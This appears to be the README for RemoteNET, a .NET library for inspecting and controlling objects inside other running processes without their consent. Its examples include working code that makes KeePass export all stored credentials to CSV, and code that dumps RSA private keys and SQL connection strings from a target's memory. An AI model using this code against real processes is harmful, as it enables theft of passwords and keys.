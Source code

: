 ![icon](https://raw.githubusercontent.com/theXappy/RemoteNET/main/icon.png)
# RemoteNET
This library lets you examine, create and interact with remote objects in other .NET processes.  
It's like [System.Runtime.Remoting](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting?view=net-5.0) except the other app doesn't need to be compiled (or consent) to support it.

Basically this library lets you mess with objects of any other .NET app without asking for permissions :)

✅ **Tested versions:**  
* .NET 5/6  
* .NET Core 3.0/3.1  
* .NET Framework 4.5/4.6/4.7/4.8 (incl. subversions)


## Compilation
1. Clone
2. Open `RemoteNET.sln` file in VisualStudio 2019
3. Build Solution (`Ctrl+Shift+B`)

You can then run the `ScubaDiver.Tester` project which is a CLI demonstrating some of `RemoteNET` abilities.  
Alternativly, include `RemoteNET` in your project and use it yourself.

## Minimal Working Example
To get the essence of how easy and usefull this library can be, see below a re-implementation of [denandz/KeeFarce](https://github.com/denandz/KeeFarce).  
This example interacts with an open KeePass process and makes it export all credentials to a CSV file.  
```C#
// Gain foothold within the target process
Process keePassProc =  Process.GetProcessesByName("KeePass").Single();
RemoteApp remoteApp = RemoteApp.Connect(keePassProc);
RemoteActivator rActivator = remoteApp.Activator;

// Get a remote DocumentManagerEx object
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("KeePass.UI.DocumentManagerEx");
RemoteObject remoteDocumentManagerEx = remoteApp.GetRemoteObject(candidates.Single());
dynamic dynamicDocumentManagerEx = remoteDocumentManagerEx.Dynamify();

// Get sensitive properties to dump
dynamic activeDb = dynamicDocumentManagerEx.ActiveDatabase;
dynamic rootGroup = activeDb.RootGroup;

// Create remote PwExportInfo object (Call Ctor)
RemoteObject pwExportInfo = rActivator.CreateInstance("KeePass.DataExchange.PwExportInfo", rootGroup, activeDb, true);

// Create remote KeePassCsv1x (Call Ctor)
RemoteObject keePassCsv1x = rActivator.CreateInstance("KeePass.DataExchange.Formats.KeePassCsv1x");
dynamic dynamicCsvFormatter = keePassCsv1x.Dynamify();

// Creating a remote FileStream object
string tempOutputFile = Path.ChangeExtension(Path.GetTempFileName(), "csv");
RemoteObject exportFileStream = rActivator.CreateInstance(typeof(FileStream), tempOutputFile, FileMode.Create);

// Calling Export method of exporter
dynamicCsvFormatter.Export(pwExportInfo, exportFileStream, null);

// Showing results in default CSV editor.
Console.WriteLine($"Output written to: {tempOutputFile}");
Process.Start(tempOutputFile);
```

## How To Use
This section documents most parts of the library's API which you'll likely need.

### ✳️ Setup
To start playing with a remote process you need to create a `RemoteApp` object like so:
```C#
Process target =  Process.GetProcessesByName("OtherDotNetAppName").Single();
RemoteApp remoteApp = RemoteApp.Connect(target);
```

### ✳️ Getting Existing Remote Objects
First and foremost RemoteNET allows you to find existing objects in the remote app.  
To do so you'll need to search the remote heap.  
Use `RemoteApp.QueryInstances()` to find possible candidate for the desired object and `RemoteApp.GetRemoteObject()` to get a handle of a candidate.  
```C#
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("MyApp.PasswordContainer");
RemoteObject passwordContainer = remoteApp.GetRemoteObject(candidates.Single());
```

### ✳️ Creating New Remote Objects
Sometimes the existing objects in the remote app are not enough to do what you want.  
For this reason you can also create new objects remotely.  
Use the `Activator`-lookalike for that cause:
```C#
// Creating a remote StringBuilder with default constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder));

// Creating a remote StringBuilder with the "StringBuilder(string, int)" ctor
RemoteObject remoteSb2 = remoteApp.Activator.CreateInstance(typeof(StringBuilder), "Hello", 100);
```
Note how we used constructor arguments in the second `CreateInstance` call. Those could also be other `RemoteObject`s:
```C#
// Constructing a bew StringBuilder
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
// Constructing a new StringWriter using the "StringWriter(StringBuilder sb)" ctor
RemoteObject remoteStringWriter = remoteApp.Activator.CreateInstance(typeof(StringWriter), remoteStringBuilder);
```

### ✳️ Reading Remote Fields/Properties
To allow a smooth coding expereince RemoteNET is utilizing a special dynamic object which any `RemoteObject` can turn into.  
This object can be used to access field/properties just if they were field/properties of a local object:
```C#
// Reading the 'Capacity' property of a newly created StringBuilder
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
dynamic dynamicStringBuilder = remoteStringBuilder.Dynamify();
Console.WriteLine("Remote StringBuilder's Capacity: " + dynamicStringBuilder.Capacity)
```
A more interesting example would be retrieving the `ConnectionString`s of every `SqlConnection` instance:
```C#
var sqlConCandidates = remoteApp.QueryInstances(typeof(SqlConnection));
foreach (CandidateObject candidate in sqlConCandidates)
{
    RemoteObject remoteSqlConnection = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicSqlConnection = remoteSqlConnection.Dynamify();
    Console.WriteLine("ConnectionString: " + dynamicSqlConnection.ConnectionString);
}
```

### ✳️ Invoking Remote Methods
Just like accessing fields, invoking methods can be done on the dynamic objects.  
This fun example dumps all private RSA keys (which are stored in `RSACryptoServiceProvider`s) found in the target's memory:
```C#
Func<byte[], string> ToHex = ba => BitConverter.ToString(ba).Replace("-", "");

// Finding every RSACryptoServiceProvider instance
var rsaProviderCandidates = remoteApp.QueryInstances(typeof(RSACryptoServiceProvider));
foreach (CandidateObject candidateRsa in rsaProviderCandidates)
{
    RemoteObject rsaProv = remoteApp.GetRemoteObject(candidateRsa);
    dynamic dynamicRsaProv = rsaProv.Dynamify();
    // Calling remote `ExportParameters`.
    // First parameter (true) indicates we want the private key.
    Console.WriteLine(" * Key found:");
    dynamic parameters = dynamicRsaProv.ExportParameters(true);
    Console.WriteLine("Modulus: " + ToHex(parameters.Modulus));
    Console.WriteLine("Exponent: " + ToHex(parameters.Exponent));
    Console.WriteLine("D: " + ToHex(parameters.D));
    Console.WriteLine("P: " + ToHex(parameters.P));
    Console.WriteLine("Q: " + ToHex(parameters.Q));
    Console.WriteLine("DP: " + ToHex(parameters.DP));
    Console.WriteLine("DQ: " + ToHex(parameters.DQ));
    Console.WriteLine("InverseQ: " + ToHex(parameters.InverseQ));
}
```
### ✳️ Remote Events
You can also subscribe to/unsubscribe from remote events. The syntax is similar altough not exact:
```C#
CandidateObject cand = remoteApp.QueryInstances("System.IO.FileSystemWatcher").Single();
RemoteObject remoteFileSysWatcher = remoteApp.GetRemoteObject(cand);
dynamic dynFileSysWatcher = remoteFileSysWatcher.Dynamify();
Action<dynamic, dynamic> callback = (dynamic o, dynamic e) => Console.WriteLine("Event Invoked!");
dynFileSysWatcher.Changed += callback;
/* ... Somewhere further ... */
dynFileSysWatcher.Changed -= callback;
```
The limitations:  
1. The parameters for the callback must be `dynamic`s
2. The callback must define the exact number of parameters for that event
3. Lambda expression are not allowed. The callback must be cast to an `Action<...>`.

## TODOs
1. Generics/Arrays aren't completely supported
2. Static members
3. Support injecting to self with local diver
4. Document "Reflection API" (RemoteType, RemoteMethodInfo, ... )
5. Support other .NET framework CLR versions (Before .NET 4.5). Currently supports v4.0.30319


## Thanks
**denandz** for his interesting project **KeeFarce** which was a major inspiration for this project.  
Also multiple parts of this project are directly taken from KeeFarce (DLL Injection, Bootstrap, IntPtr-to-Object converter).

**icons8** for the "Puppet" icon

**Raymond Chen** for stating this project shouldn't be done in [this blog post from 2010](https://devblogs.microsoft.com/oldnewthing/20100812-00/?p=13163).  
I really like this qoute from the post:
>If you could obtain all instances of a type, the fundamental logic behind computer programming breaks down. It effectively becomes impossible to reason about code because anything could happen to your objects at any time.
